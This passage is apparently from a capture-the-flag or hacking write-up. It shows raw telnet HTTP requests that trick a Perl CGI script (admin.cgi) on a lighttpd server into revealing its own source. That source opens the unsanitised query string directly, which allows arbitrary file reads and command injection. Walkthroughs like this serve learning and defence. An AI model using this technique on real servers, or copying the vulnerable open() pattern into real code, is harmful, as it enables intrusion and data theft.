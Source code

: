 Requesting this file gives us a very interesting response:

```
[0x00 ~]$ telnet 195.56.122.9 8976
Trying 195.56.122.9...
Connected to 195.56.122.9.
Escape character is '^]'.
GET /cgi-bin/admin.cgi HTTP/1.1
Host: 195.56.122.9

HTTP/1.1 200 OK
Content-type: text/html
Transfer-Encoding: chunked
Date: Sat, 03 Sep 2011 10:14:05 GMT
Server: lighttpd/1.4.28

19
Opening QUERY_STRING<br/>
0

Connection closed by foreign host.
```

WTF, really? Could it be ... ? Let's try it.

```
[0x00 ~]$ telnet 195.56.122.9 8976
Trying 195.56.122.9...
Connected to 195.56.122.9.
Escape character is '^]'.
GET /cgi-bin/admin.cgi?admin.cgi HTTP/1.1
Host: 195.56.122.9 

HTTP/1.1 200 OK
Content-type: text/html
Transfer-Encoding: chunked
Date: Sat, 03 Sep 2011 10:13:08 GMT
Server: lighttpd/1.4.28

d7
Opening QUERY_STRING<br/>#!/usr/bin/perl
print "Content-type: text/html\\n\\n";

$thatsit=$ENV{'QUERY_STRING'};
print "Opening QUERY_STRING<br/>";
open (IN,"$thatsit");
while($aline=<in>){
		print $aline;
}
close IN;

0

Connection closed by foreign host.</in> 
```
